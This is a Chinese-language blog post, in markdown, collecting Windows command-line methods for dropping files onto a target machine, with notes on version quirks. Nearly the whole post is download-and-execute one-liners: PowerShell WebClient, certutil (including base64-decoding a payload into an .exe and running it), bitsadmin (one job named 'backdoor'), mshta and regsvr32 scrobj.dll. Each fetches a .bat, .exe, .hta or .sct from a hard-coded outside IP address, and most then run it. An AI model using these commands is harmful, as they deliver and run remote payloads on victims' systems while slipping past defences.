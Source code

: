 ```yaml
---
layout: post
title: 命令行文件下载-Windows篇(长期更新)
---
```


> *文章长期更新，此文收集总结了Windows下 下载文件的各种姿势，对目标表进行文件的落地（或无落地）*

---

[TOC]

## 0x01 PoweShell

`win2003，winXP`不支持

踩坑

- Powershell 版本大于`2.0`时 在连接两个命令时 用 **空格** 替换了 `;`
- Powershell 版本低于或等于`2.0`时 `DownloadFile()`函数不支持自定义保存路径 文件默认保存在`C:\Users\当前用户名` 下![image-20200403122054016](https://tva1.sinaimg.cn/large/00831rSTly1gdggmdhh09j311w0ecdit.jpg)![image-20200403121710725](https://tva1.sinaimg.cn/large/00831rSTly1gdggiiv0ndj30mo0f040i.jpg)



不指定保存路径兼容性更高


```powershell
powershell (new-object System.Net.WebClient).DownloadFile('http://47.92.194.173/test.txt', '1.bat');start-process '1.bat'
```

指定路径（Windows7以上适用）

```powershell
powershell (new-object System.Net.WebClient).DownloadFile('http://47.92.194.173/test.txt', '%temp%\1.bat');start-process '%temp%\1.bat'
```

`%temp%`指当前登陆用户的临时目录



## 0x02 Certutil

Path

- C:\Windows\System32\certutil.exe
- C:\Windows\SysWOW64\certutil.exe

踩坑

- 低版本certutil不支持指定下载的目录，为了兼容性可以直接在当前目录操作

```php
certutil -urlcache -split -f http://47.92.194.173/test.txt&ren 1.txt 1.bat&1.bat
或者
certutil -urlcache -split -f http://47.92.194.173/test.txt %temp%\1.bat&%temp%\1.bat
```

Certutil也支持base64加解密以及16进制解密

![image-20200403165312327](https://tva1.sinaimg.cn/large/00831rSTly1gdgohpx2oaj30lu052wfb.jpg)

```php
certutil -urlcache -split -f http://47.92.194.173/test.bs4 %temp%\1.bs4&certutil -decode %temp%\1.bs4 %temp%\1.exe&%temp%\1.exe
```

---

## 0x03 bitsadmin

Path:

- C:\Windows\System32\bitsadmin.exe
- C:\Windows\SysWOW64\bitsadmin.exe

踩坑：

- 在Windows7或某些版本的Windows10上会运行失败 出现以下报错

  > BITSAdmin is deprecated and is not guaranteed to be available in future versions
  >  of Windows.
  >
  > BITSAdmin已弃用，并且不能保证在将来的Windows版本中可用。
  >
  > Administrative tools for the BITS service are now provided by BITS PowerShell cm
  > dlets.
  >
  > BITS PowerShell cmdlet现在提供了BITS服务的管理工具

  



```python
bitsadmin /transfer n http://github.com/3gstudent/test/raw/master/putty.exe c:\a.exe && c:\a.exe

bitsadmin /create 1 bitsadmin /addfile 1 http://47.92.194.173/test.txt c:\autoruns.bat bitsadmin /RESUME 1 bitsadmin /complete 1

bitsadmin /create 1 bitsadmin /addfile 1 http://47.92.194.173/test.txt C:\Program Files (x86)\1.bat bitsadmin /RESUME 1 bitsadmin /complete 1



bitsadmin /rawreturn /transfer getfile http://47.92.194.173/test.txt C:\Program Files\1.bat



bitsadmin /transfer myDownLoadJob /download /priority normal "http://47.92.194.173/test.txt" "C:\Program Files (x86)\1.bat"

bitsadmin /transfer backdoor http://47.92.194.173/test.txt C:\Program Files\1.bat

DISPLAY: '任务名' TYPE: DOWNLOAD STATE: TRANSFERRED PRIORITY: NORMAL FILES: 1 / 1 BYTES: 11392 / 11392 (100%) Transfer complete

默认情况下bitsadmin下载速度极慢，下载较大文件需要设置优先级提速，以下是用法示例：

\#下载filezilla FTP客户端，任务名是333 start bitsadmin /transfer 333 http://dwz.cn/fffftp c:\333.exe #设置任务333为最高优先级 bitsadmin /setpriority 333 foreground

bitsadmin 可以在网络不稳定的状态下下载文件，出错会自动重试，可靠性应该相当不错。
bitsadmin 可以跟随URL跳转.
bitsadmin 不像CURL WGET 这类工具那样能用来下载HTML页面。

bitsadmin 权限问题待解决

bitsadmin已经在win7 win10 win2008 不可用


```

---

## 0x04 mshta

mshta http://47.92.194.173/hack.hta 支持短网址

http://suo.im/5VA0Ut





regsvr32 /u /s /i:http://47.92.194.173/test1.sct scrobj.dll